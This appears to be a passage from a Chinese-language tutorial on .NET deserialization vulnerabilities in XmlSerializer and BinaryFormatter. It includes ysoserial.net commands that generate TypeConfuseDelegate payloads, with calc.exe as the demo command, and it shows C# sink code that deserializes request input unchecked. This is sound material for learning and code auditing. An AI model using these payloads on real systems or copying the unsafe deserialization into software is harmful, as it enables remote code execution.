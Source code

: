 ### 反序列化 RCE 漏洞利用代码
虽然 `XmlSerializer` 默认只支持公开类型，但在某些场景下（如类型推断、类型信息泄露或自定义类型处理）可能被利用。攻击者可构造恶意 XML 数据，结合已知 gadget 触发漏洞。例如：
```bash
# 使用 ysoserial.net 生成恶意 XML payload
ysoserial.exe -g TypeConfuseDelegate -f xml -c "calc.exe" -o payload.xml
```

### Sink 点
反序列化发生在调用 `XmlSerializer.Deserialize` 时，若输入可控且类型未严格限制，可能导致漏洞。关键点：
- 反序列化时未验证 XML 来源或内容。
- 支持多态或类型推断，攻击者可注入恶意类型。
- 示例代码：
```csharp
using (var reader = new StreamReader(Request.InputStream))
{
    var obj = (MyClass)new XmlSerializer(typeof(MyClass)).Deserialize(reader);
}
```
## 3 BinaryFormatter
### 介绍
`BinaryFormatter` 是 .NET 中用于将对象序列化为二进制格式或从二进制数据反序列化为对象的类。它支持复杂对象图和类型信息，常用于远程调用、持久化等场景。

### 基本使用
常见用法如下：
```csharp
// 序列化
var formatter = new BinaryFormatter();
using (var stream = new FileStream("data.bin", FileMode.Create))
{
    formatter.Serialize(stream, myObject);
}

// 反序列化
using (var stream = new FileStream("data.bin", FileMode.Open))
{
    var obj = (MyClass)formatter.Deserialize(stream);
}
```

### 反序列化 RCE 漏洞利用代码
`BinaryFormatter` 支持任意类型的反序列化，攻击者可利用已知 gadget 链构造恶意 payload，实现远程代码执行。例如：
```bash
# 使用 ysoserial.net 生成恶意二进制 payload
ysoserial.exe -g TypeConfuseDelegate -f raw -c "calc.exe" -o payload.bin
```

### Sink 点
反序列化发生在调用 `BinaryFormatter.Deserialize` 时，若输入可控且未做安全校验，极易导致漏洞。关键点：
- 直接反序列化用户可控的二进制数据。
- 未限制可反序列化的类型。
- 示例代码：
```csharp
using (var stream = Request.InputStream)
{
    var obj = new BinaryFormatter().Deserialize(stream);
}
```
